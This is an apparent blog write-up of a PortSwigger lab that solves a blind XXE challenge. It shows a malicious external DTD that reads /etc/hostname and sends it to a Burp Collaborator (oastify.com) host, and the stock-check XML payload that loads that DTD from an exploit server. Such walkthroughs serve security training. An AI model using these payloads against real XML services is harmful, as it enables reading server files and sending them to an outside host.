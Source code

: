 ```yaml
---
author: Nithissh S
pubDatetime: 2024-11-23T15:22:00Z
modDatetime: 2024-11-23T09:12:47.400Z
title: Exploiting blind XXE to exfiltrate data using a malicious external DTD
slug: xxe-portswigger-lab-7
featured: false
draft: false
tags:
  - BSCP
  - XXE
description:
  This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, exfiltrate the contents of the `/etc/hostname` file. 
---
```


## Objective 

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file. 

## Solution 

In the exploit server, I've created the following malicious `dtd` file where it will fetch the contents of `/etc/hostname` and pass it on to our external collaborator 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ezhowuwf9vie5fyfv05olbxce3kw8mwb.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Once after storing the above payload in exploit server, through checkstock functionality we pass the following payload 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0a730090048d74d280fa70b2014a0024.exploit-server.net/exploit.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Here is how it works, firstly it will access the file called `/etc/hostname` and through eval entity we will be passing the payload on to our burp collaborator through a `x` parameter we can read those file 

After sending the request, our response is quite similiar like the previous one and where `XML parser error` occured 

![](../../assets/images/bscp/xxe/xxe-22.png)

Checking the collaborator, we recieved the values of the `hostname` inside `x` parameter 

![](../../assets/images/bscp/xxe/xxe-23.png)

Submit those values as solution and that solves the lab 

![](../../assets/images/bscp/xxe/xxe-24.png)

